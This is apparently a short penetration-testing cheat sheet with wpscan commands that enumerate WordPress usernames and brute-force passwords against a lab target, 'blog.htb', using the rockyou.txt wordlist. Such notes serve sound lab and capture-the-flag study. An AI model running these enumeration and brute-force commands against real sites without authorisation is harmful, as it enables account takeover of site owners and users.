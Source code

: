 -- -
### Enumerate usernames
bruteforce IDs to get valid usernames
```bash
wpscan --url http://blog.htb -e u
```
### Bruteforce accounts
```bash
# bruteforce with all found valid usernames
wpscan --url http://blog.htb --passwords rockyou.txt

# bruteforce specific username
wpscan --url http://blog.htb --passwords rockyou.txt --usernames j@m3s
```